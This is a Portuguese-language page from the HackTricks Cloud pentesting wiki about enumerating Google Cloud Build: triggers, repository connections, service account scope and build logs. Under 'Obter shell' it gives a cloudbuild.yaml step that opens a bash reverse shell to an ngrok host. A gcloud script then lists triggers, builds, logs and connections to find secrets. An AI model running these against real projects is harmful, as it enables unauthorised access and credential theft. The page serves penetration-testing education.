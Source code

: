 # GCP - Enumeração do Cloud Build

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

## Informações Básicas

O Google Cloud Build é uma plataforma gerenciada de CI/CD que **automatiza a construção de software** e processos de lançamento, integrando-se com **repositórios de código-fonte** e suportando uma ampla gama de linguagens de programação. Ele **permite que desenvolvedores construam, testem e implantem código automaticamente**, oferecendo flexibilidade para personalizar etapas de construção e fluxos de trabalho.

Cada Gatilho do Cloud Build está **relacionado a um Repositório Cloud ou diretamente conectado com um repositório externo** (Github, Bitbucket e Gitlab).

{% hint style="success" %}
Não consegui encontrar nenhuma maneira de roubar o token do Github/Bitbucket daqui ou dos Repositórios Cloud porque quando o repositório é baixado, ele é acessado via URL [https://source.cloud.google.com/](https://source.cloud.google.com/) e o Github não é acessado pelo cliente.
{% endhint %}

### Eventos

O Cloud Build pode ser acionado se:

* **Push para um branch**: Especifique o branch
* **Push de uma nova tag**: Especifique a tag
* **Pull request**: Especifique o branch que recebe o PR
* **Invocação Manual**
* **Mensagem Pub/Sub:** Especifique o tópico
* **Evento de Webhook**: Exporá uma URL HTTPS e a solicitação deve ser autenticada com um segredo

### Execução

Existem 3 opções:

* Um yaml/json **especificando os comandos** a serem executados. Geralmente: `/cloudbuild.yaml`
* Apenas um que pode ser especificado "inline" no console da web e no cli
* Opção mais comum
* Relevante para acesso não autenticado
* Um **Dockerfile** para construir
* Um **Buildpack** para construir

### Permissões de SA

A **Conta de Serviço tem o escopo `cloud-platform`**, então ela pode **usar todos os privilégios.** Se **nenhuma SA for especificada** (como quando se faz submit), a **SA padrão** `<proj-number>@cloudbuild.gserviceaccount.com` será **usada.**

Por padrão, nenhuma permissão é concedida, mas é bastante fácil conceder algumas:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Aprovações

É possível configurar um Cloud Build para **exigir aprovações para execuções de construção** (desativado por padrão).

### Conexões & Repositórios

Conexões podem ser criadas sobre:

* **GitHub:** Será mostrado um prompt OAuth pedindo permissões para **obter um token do Github** que será armazenado dentro do **Secret Manager.**
* **GitHub Enterprise:** Será solicitado a instalar um **GithubApp**. Um **token de autenticação** do seu host do GitHub Enterprise será criado e armazenado neste projeto como um segredo do **Secret Manager**.
* **GitLab / Enterprise:** Você precisa **fornecer o token de acesso à API e o token de acesso à API de Leitura** que serão armazenados no **Secret Manager.**

Uma vez que uma conexão é gerada, você pode usá-la para **vincular repositórios aos quais a conta do Github tem acesso**.

Esta opção está disponível através do botão:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Note que repositórios conectados com este método estão **disponíveis apenas em Gatilhos usando a 2ª geração.**
{% endhint %}

### Conectar um Repositório

Isso não é o mesmo que uma **`conexão`**. Isso permite **diferentes** maneiras de obter **acesso a um repositório do Github ou Bitbucket** mas **não gera um objeto de conexão, mas gera um objeto de repositório (de 1ª geração).**

Esta opção está disponível através do botão:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Armazenamento

Às vezes, o Cloud Build irá **gerar um novo armazenamento para guardar os arquivos para o gatilho**. Isso acontece, por exemplo, no exemplo que o GCP oferece com:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
Um bucket do Storage chamado [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) é criado para armazenar um `.tgz` com os arquivos a serem utilizados.

### Obter shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Enumeração

Você pode encontrar **informações sensíveis nas configurações de build e logs**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Escalonamento de Privilégios

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Acesso Não Autenticado

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Pós-Exploração

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
